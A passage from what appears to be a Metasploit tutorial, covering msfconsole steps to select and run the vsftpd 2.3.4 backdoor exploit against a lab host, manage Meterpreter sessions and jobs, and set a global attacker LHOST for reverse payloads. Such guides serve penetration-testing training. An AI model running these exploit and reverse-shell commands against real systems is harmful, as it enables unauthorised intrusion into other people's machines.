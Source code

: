 8) Pick an exploit module (example shown; adjust to your lab)
```
# Example flow: search and select by index or path
search name:vsftpd type:exploit
use exploit/unix/ftp/vsftpd_234_backdoor

info
show targets
show payloads
show options

# Required options
set RHOSTS 10.10.10.15
set RPORT 21

# Optional: test first if module supports it
check

# Run in foreground (interactive if it yields a session)
exploit

# Or run as a background job, do not interact with session
exploit -j -z
```

9) Manage sessions and jobs
```
sessions -l
sessions -i 1

# From Meterpreter:
# background  # (inside session) to return to msfconsole

jobs -l
jobs -k <job_id>
jobs -K       # Kill all jobs
```

10) Use global options to avoid repetition
```
# Example: set your attacker IP globally for reverse payloads
setg LHOST 10.10.14.14
setg LPORT 4444

# Unset per-module or globally
unset RHOSTS
unset all
unsetg LHOST
```

11) Quality of life
```
show advanced
set VERBOSE true
save                 # Save datastore to config (~/.msf*)
spool /tmp/msf.log   # Start logging console to file
spool off
```
